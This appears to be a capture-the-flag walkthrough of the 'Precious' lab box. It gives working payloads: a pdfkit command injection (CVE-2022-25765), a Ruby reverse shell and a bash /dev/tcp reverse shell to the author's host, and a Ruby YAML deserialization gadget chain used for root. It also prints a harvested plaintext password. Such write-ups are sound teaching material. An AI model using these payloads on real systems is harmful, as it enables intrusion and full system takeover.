

Precious#
Enum#
# Nmap 7.93 scan initiated Tue Dec 20 21:25:17 2022 as: nmap -sC -sV -oN scans/nmap.initial 10.10.11.189
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 845e13a8e31e20661d235550f63047d2 (RSA)
| 256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_ 256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open http nginx 1.18.0
| http-server-header:
| nginx/1.18.0
|_ nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 20 21:26:28 2022 -- 1 IP address (1 host up) scanned in 70.61 seconds
Wappalizer finds those things:

So this runs on phusion passenger
Hosting a simple page and directing the app to it
cat index.html
met an interesting turtle while the song on the radio blasted away
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.189 - - [15/Jan/2023 16:31:15] "GET / HTTP/1.1" 200 -
This works and generates a pdf for us:
file n47e8tjnsoiodaxducb2ru815d36hiln.pdf
n47e8tjnsoiodaxducb2ru815d36hiln.pdf: PDF document, version 1.4, 1 pages
exiftool n47e8tjnsoiodaxducb2ru815d36hiln.pdf
ExifTool Version Number : 12.54
File Name : n47e8tjnsoiodaxducb2ru815d36hiln.pdf
Directory : .
File Size : 11 kB
File Modification Date/Time : 2023:01:15 16:42:10+00:00
File Access Date/Time : 2023:01:15 16:43:01+00:00
File Inode Change Date/Time : 2023:01:15 16:42:55+00:00
File Permissions : -rw-r--r--
File Type : PDF
File Type Extension : pdf
MIME Type : application/pdf
PDF Version : 1.4
Linearized : No
Page Count : 1
Creator : Generated by pdfkit v0.8.6
PDFkit 0.8.6 - CVE-2022-25765#
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
Since we controll the input url completely we can se whatever we want in there:
And we’ll get the result of the command as a GET param on our webserver:
10.10.11.189 - - [15/Jan/2023 17:15:10] "GET /?name=%20uid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 200 -
We have rce, let’s get a shell
http://10.10.14.122:8000?name=%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.122",4242))'`
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.122] from (UNKNOWN) [10.10.11.189] 51170
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
Lateral movement to Henry#
cd
ls -la
total 36
drwxr-xr-x 6 ruby ruby 4096 Jan 17 15:02 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root 9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby 220 Mar 27 2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27 2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Jan 17 11:48 .cache
drwx------ 3 ruby ruby 4096 Jan 17 15:02 .gnupg
drwxr-xr-x 3 ruby ruby 4096 Jan 17 14:53 .local
-rw-r--r-- 1 ruby ruby 807 Mar 27 2022 .profile
cd .bundle
ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .
drwxr-xr-x 6 ruby ruby 4096 Jan 17 15:02 ..
-r-xr-xr-x 1 root ruby 62 Sep 26 05:04 config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
Privesc with YAML deserialization in ruby#
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'
# TODO: update versions automatically
def update_gems()
end
def list_from_file
YAML.load(File.read("dependencies.yml"))
end
def list_local_gems
Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end
gems_file = list_from_file
gems_local = list_local_gems
gems_file.each do |file_name, file_version|
gems_local.each do |local_name, local_version|
if(file_name == local_name)
if(file_version != local_version)
puts "Installed version differs from the one specified in file: " + local_name
else
puts "Installed version is equals to the one specified in file: " + local_name
end
end
end
end
Blind RCE through YAML Deserialization
henry@precious:~$ pwd
/home/henry
henry@precious:~$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
i: x
- !ruby/object:Gem::SpecFetcher
i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: /home/henry/newt.sh
method_id: :resolve
henry@precious:~$ vi newt.sh
henry@precious:~$ chmod +x newt.sh
henry@precious:~$ cat newt.sh
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.122/4242 0>&1
henry@precious:~$ sudo ruby /opt/update_dependencies.rb
sh: 1: reading: not found
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.122] from (UNKNOWN) [10.10.11.189] 54992
# pwd
/home/henry
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 /root/root.txt